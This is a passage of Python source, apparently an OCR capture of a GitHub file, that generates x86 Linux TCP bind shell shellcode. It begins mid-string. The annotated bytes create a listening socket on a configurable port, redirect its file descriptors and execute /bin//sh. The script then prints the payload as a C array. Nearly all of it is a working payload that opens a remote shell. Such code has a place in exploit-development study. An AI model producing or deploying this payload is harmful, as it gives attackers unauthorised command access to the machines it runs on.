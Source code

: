 ```python
                      "\x6a\x02"              # push 0x02
                      "\x89\xe1"              # mov ecx, esp
                      "\xb0\x66"              # mov al, 0x66
                      "\xcd\x80"              # int 0x80
                      "\x5f"                  # pop edi
                      "\x97"                  # xchg edi, eax
                      "\x93"                  # xchg ebx, eax
                      "\xb0\x66"              # mov al, 0x66
                      "\x52"

                      + HANDLE_PORT_NUMBER +

                      "\x66\x53"              # push bx
                      "\x89\xe1"              # mov ecx, esp
                      "\x6a\x10"              # push 0x10
                      "\x51"                  # push ecx
                      "\x57"                  # push edi
                      "\x89\xe1"              # mov ecx, esp
                      "\xcd\x80"              # int 0x80
                      "\x89\x51\x04"          # mov dword ptr [ecx + 0x04], edx
                      "\x80\xc3\x02"          # mov bl, 0x02
                      "\xb0\x66"              # mov al, 0x66
                      "\xcd\x80"              # int 0x80
                      "\x43"                  # inc ebx
                      "\xb0\x66"              # mov al, 0x66
                      "\xcd\x80"              # int 0x80
                      "\x93"                  # xchg bx, eax
                      "\x89\xd1"              # mov ecx, edx
                      "\xb1\x02"              # mov cl, 0x02
                      "\x31\xc0"              # xor eax, eax
                      "\xb0\x3f"              # mov al, 0x3f
                      "\xcd\x80"              # int 0x80
                      "\x49"                  # dec ecx
                      "\x79\xf9"              # jns short [esp - 5]
                      "\x52"                  # push edx
                      "\x68\x2f\x2f\x73\x68"  # push 0x68732f2f
                      "\x68\x2f\x62\x69\x6e"  # push 0x6e69622f
                      "\x89\xe3"              # mov ebx, esp
                      "\x52"                  # push edx
                      "\x89\xe2"              # mov edx, esp
                      "\x53"                  # push ebx
                      "\x89\xe1"              # mov ecx, esp
                      "\xb0\x0b"              # mov al, 0x0b
                      "\xcd\x80",             # int 0x80
                      'iso-8859-1')

final_shellcode = ''

for i in shellcode:
    final_shellcode += '\\x'
    final_shellcode += '%02x' % (i & 0xff)

print("x86 Linux TCP Bind Shell on port " + str(port))
print("Length: " + str(len(shellcode)) + "\n")
print("unsigned char shellcode[] = \"" + final_shellcode + "\";")
```